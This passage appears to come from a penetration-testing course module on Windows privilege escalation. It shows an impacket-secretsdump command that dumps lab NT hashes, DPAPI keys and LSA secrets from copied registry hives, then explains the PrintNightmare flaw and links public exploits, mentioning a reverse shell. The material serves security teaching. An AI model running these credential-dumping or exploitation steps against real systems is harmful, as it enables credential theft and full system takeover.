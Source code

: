 These copies can then be transferred back to the attack host, where impacket-secretsdump is used to extract the hashes:

Kernel Exploits

```
doshim@htb[/htb]$ impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 localImpacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0xebb2121de07ed08fc7dc58aa773b23d6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM
dpapi_machinekey:0x3c7b7e66890fb2181a74bb56ab12195f248e9461
dpapi_userkey:0xc3e6491e75d7cffe8efd40df94d83cba51832a56
[*] NL$KM  0000   45 C5 B2 32 29 8B 05 B8  E7 E7 E0 4B 2C 14 83 02   E..2)......K,...
 0010   CE 2F E7 D9 B8 E0 F0 F8  20 C8 E4 70 DD D1 7F 4F   ./...... ..p...O
 0020   42 2C E6 9E AF 57 74 01  09 88 B3 78 17 3F 88 54   B,...Wt....x.?.T
 0030   52 8F 8D 9C 06 36 C0 24  43 B9 D8 0F 35 88 B9 60   R....6.$C...5..`NL$KM:45c5b232298b05b8e7e7e04b2c148302ce2fe7d9b8e0f0f820c8e470ddd17f4f422ce69eaf5774010988b378173f8854528f8d9c0636c02443b9d80f3588b960
```

`CVE-2021-1675/CVE-2021-34527 PrintNightmare` is a flaw in [RpcAddPrinterDriver](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22)
 which is used to allow for remote printing and driver installation. 
This function is intended to give users with the Windows privilege `SeLoadDriverPrivilege`
 the ability to add drivers to a remote Print Spooler. This right is 
typically reserved for users in the built-in Administrators group and 
Print Operators who may have a legitimate need to install a printer 
driver on an end user's machine remotely. The flaw allowed any 
authenticated user to add a print driver to a Windows system without 
having the privilege mentioned above, allowing an attacker full remote 
code execution as SYSTEM on any affected system. The flaw affects every 
supported version of Windows, and being that the Print Spooler runs by 
default on Domain Controllers, Windows 7 and 10, and is often enabled on
 Windows servers, this presents a massive attack surface, hence 
"nightmare." Microsoft initially released a patch that did not fix the 
issue (and early guidance was to disable the Spooler service, which is 
not practical for many organizations) but released a second [patch](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) in July of 2021 along with guidance to check that specific registry settings are either set to `0` or not defined. Once this vulnerability was made public, PoC exploits were released rather quickly. [This](https://github.com/cube0x0/CVE-2021-1675) version by [@cube0x0](https://twitter.com/cube0x0)
 can be used to execute a malicious DLL remotely or locally using a 
modified version of Impacket. The repo also contains a C# 
implementation. This [PowerShell implementation](https://github.com/calebstewart/CVE-2021-1675)
 can be used for quick local privilege escalation. By default, this 
script adds a new local admin user, but we can also supply a custom DLL 
to obtain a reverse shell or similar if adding a local admin user is not
 in scope.
